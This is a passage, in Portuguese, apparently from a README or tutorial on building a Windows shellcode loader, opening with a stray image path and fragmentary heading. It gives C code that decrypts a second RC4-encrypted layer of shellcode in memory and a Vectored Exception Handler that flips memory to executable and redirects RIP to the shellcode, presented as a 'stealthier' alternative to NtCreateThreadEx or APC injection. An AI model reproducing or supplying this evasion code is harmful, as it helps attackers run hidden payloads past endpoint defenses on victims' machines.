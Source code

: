 2. **Dupla Camada de Descriptografia**:
```c
    DWORD dw2KeySize = sizeof(decryptionkey);
    if (!DoubleRC4Decrypt(decryptionkey, shellcodeMemory, dw2KeySize, (DWORD)bytesWritten)) {
        printf("[-] Error decrypting the second layer\n");
        return;
    }
```

3. **Descriptografia**:
- O shellcode só é descriptografado em memória
## Configurando o VEH Handler

Vamos utilizar o mecanismo de **VEH** para iniciar a **thread** do nosso shellcode.

Evitando assim o uso de métodos mais tradicionais, como `NtCreateThreadEx` ou `Queue/APC`.

O **[VEH (Vectored Exception Handler)](https://learn.microsoft.com/en-us/windows/win32/debug/vectored-exception-handling)** será configurado para capturar exceções do tipo `EXCEPTION_ACCESS_VIOLATION`, que vai ocorrer ao tentar executar uma região de memória marcada como [não-executável](https://learn.microsoft.com/pt-br/windows/win32/memory/memory-protection-constants).

Quando a exceção for gerada, redirecionamos manualmente o registrador **RIP** para o endereço onde o shellcode foi previamente alocado.

Essa abordagem permite executar o shellcode de forma mais "furtiva", explorando o fluxo "natural" de exceções do processo:

<div align=center>
  <img alt="msg" src="https://i.imgur.com/Az2Ns6t.png">
</div>

```c
LONG CALLBACK VehHandler(PEXCEPTION_POINTERS info) {
    if (info->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION && !executed) {
        SIZE_T size = shellcodeSize;
        // Altera PAGE_READWRITE para PAGE_EXECUTE_READ
        NtProtectVirtualMemory(GetCurrentProcess(), &shellcodeMemory, &size, PAGE_EXECUTE_READ, &oldProt);
        // Redireciona RIP para o shellcode
        info->ContextRecord->Rip = (DWORD64) shellcodeMemory;
        executed = TRUE;
        RemoveVectoredExceptionHandler(handlerHandle);
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}
```

E registramos:

```c
handlerHandle = AddVectoredExceptionHandler(1, VehHandler);
```

---
